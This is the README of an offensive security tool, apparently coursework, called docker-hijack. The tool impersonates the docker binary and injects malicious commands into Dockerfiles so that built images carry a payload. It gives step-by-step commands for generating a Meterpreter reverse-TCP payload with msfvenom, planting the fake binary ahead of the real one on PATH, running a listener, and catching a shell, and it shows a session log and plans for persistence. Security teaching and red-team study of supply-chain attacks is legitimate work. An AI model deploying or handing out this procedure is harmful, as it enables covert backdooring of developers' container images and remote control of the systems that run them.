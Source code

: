 # docker-hijack

Docker-hijack demonstrates how an adversary could hijack the docker build process to embed malware in container images.

This tool is intended for use by ethical security practitioners to assess and improve cybersecurity.

Misuse of this tool is strongly condemned by the author.

This tool was created to satisfy classwork for Dakota State University's CSC-842 Security Tool Development.

## Prerequisites

- GNU/Linux-based Operating System
- Go compiler
- Docker
- Metasploit (optional)

### Usage

### 1. Build from Source

We do not provide pre-compiled versions of this program.

You must first build docker-hijack from source.

Build instructions are as follows:

```bash
# clone the repository
git clone https://github.com/bluesentinelsec/docker-hijack.git

# enter the project folder
cd docker-highjack

# place a meterpreter shell in the payloads folder
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f elf -o pkg/payload/meterpreter

# read/change the evil docker-build commands
cat pkg/payload/build_commands.txt

# build docker-highjack with default options
go build -o docker-hijack cmd/main.go

# confirm executable runs; it should proxy
# '--help' to the legitimate docker executable
./docker-hijack --help
```

### 2. Deploy docker-hijack to target Unix-based system

How you do this is up to you.

Never deploy this tool on target systems unless you have explicit written permission from the device owner(s).

### 3. Install docker-hijack on target

You should now have the docker-hijack binary on the target system.

Next, we need to ensure that docker-hijack is executed before the legitimate docker.

There are many ways to do this, such as setting alias commands, or modifying the user's $PATH variable.

For demonstration purposes, you can simply copy the tainted docker to `/usr/local/bin` which is ahead of the legitimate docker executable.

This requires sudo permissions.

```bash
# move docker-hijack to location ahead of docker in $PATH
sudo mv docker-hijack /usr/local/bin
```

Now confirm that docker-hijack is executed:

```bash
docker --infected

you executed docker hijack
```

Now docker-hijack sits between the user and the legitimate docker executable.

### 4. Wait for compromised user to invoke docker build command

Setup a Meterpreter handler; this needs to match the Meterpreter created in `docker-hijack/pkg/payload/meterpreter`:

```
# example meterpreter commands
sudo msfconsole
msf > use exploit/multi/handler
msf > set payload linux/x86/meterpreter/reverse_tcp
msf > set LHOST 0.0.0.0
msf > set LPORT 4444
msf > run -j
[*] Started reverse TCP handler on 0.0.0.0:4444 
```

Now wait... whenever a compromised user invokes docker build, docker-hijack will insert a malicious command into the docker build file.

To test this, run a docker build command against `docker-hijack/testData/Dockerfile`.

```bash
# from docker-hijack/testData/
# build the Dockerfile; docker-hijack will intercept the command
# and inject the Dockerfile; once the build is finished, docker-hijack
# will restore the original build file
docker build . -t compromised
```

Finally, execute the container.

If it worked, you should get a shell.

```bash
docker exec -it compromised bash
```

```bash
msf6 exploit(multi/handler) > [*] Sending stage (1017704 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (192.168.1.153:4444 -> 172.17.0.2:41404) at 2023-05-31 18:39:01 -0400
```

### 5. Cleanup

Remove docker-hijack:

```
# delete docker-hijack
rm -rf /usr/local/bin/docker

# stop/delete tainted container image
docker ps
docker stop <tainted container ID>

docker images
docker rmi infected --force
```

## Future Work

Given enough time, I would pursue the following features:

1. Automate docker-hijack installation

2. Deploy the embedded payload as a service/daemon. This should make the payload fire when the container is executed detatched. Cron job is another option; however, containers don't always have cron installed.

3. Make it easier to specify your payloads at build time. Ideally it should be:

```bash
make payload_src=/path/to/your_rat \
     payload_dst=/usr/local/bin/your_rat \
     build_cmds=/path/to/your_build_cmds.txt
```


